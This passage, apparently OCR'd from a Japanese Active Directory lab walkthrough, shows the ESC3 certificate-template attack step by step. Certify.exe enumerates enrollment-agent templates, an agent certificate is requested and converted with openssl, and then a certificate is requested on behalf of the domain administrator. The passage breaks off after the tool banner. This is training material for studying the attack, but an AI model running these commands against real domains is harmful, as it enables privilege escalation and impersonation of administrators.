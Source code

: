 ドメイン認証を許可し、証明書要求エージェントのアプリケーション・ポリシー要件を持つ、ドメイン認証が可能で証明書要求エージェントのアプリケーション・ポリシー要求がある別のテンプレートが見つかれば、任意のユーザに代わって証明書を要求できる。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe find 
[snip] 
 
CA Name                               : mcorp-dc.moneycorp.local\moneycorp
MCORP-DC-CA 
    Template Name                         : SmartCardEnrollment-Users 
    Schema Version                        : 2 
    Validity Period                       : 10 years 
    Renewal Period                        : 6 weeks 
    msPKI-Certificates-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, 
SUBJECT_REQUIRE_DIRECTORY_PATH 
    mspki-enrollment-flag                 : AUTO_ENROLLMENT 
    Authorized Signatures Required        : 1 
    Application Policies                  : Certificate Request Agent 
    pkiextendedkeyusage                   : Client Authentication, Encrypting 
File System, Secure Email 
    mspki-certificate-application-policy  : Client Authentication, Encrypting 
File System, Secure Email 
    Permissions 
      Enrollment Permissions 
        Enrollment Rights           : dcorp\Domain Users            S-1-5-21
719815819-3726368948-3917688648-513 
                                      mcorp\Domain Admins           S-1-5-21
719815819-3726368948-3917688648-512 
                                      mcorp\Enterprise Admins       S-1-5-21
719815819-3726368948-3917688648-519
```
---
3. SmartCardEnrollment-Agentテンプレートから登録エージェント証明書をリクエスト
```
C:\AD\Tools>C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent 
[snip]
```
---
4. 証明書のテキストをesc.pemに保存し、pfxに変換する。
```
C:\AD\Tools>C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-agent.pfx
[snip] 
```
---
5. これでEnrollment Agent Certificateを使用して、テンプレートからDA用の証明書を要求できるようになりました。
SmartCardEnrollment-Users： 
```
C:\AD\Tools>C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123
 
   _____          _   _  __ 
  / ____|        | | (_)/ _| 
 | |     ___ _ __| |_ _| |_ _   _ 
 | |    / _ \ '__| __| |  _| | | | 
 | |___|  __/ |  | |_| | | | |_| | 
  \_____\___|_|   \__|_|_|  \__, | 
                             __/ | 
                            |___./ 
  v1.0.0 
 
[*] Action: Request a Certificates 
 
```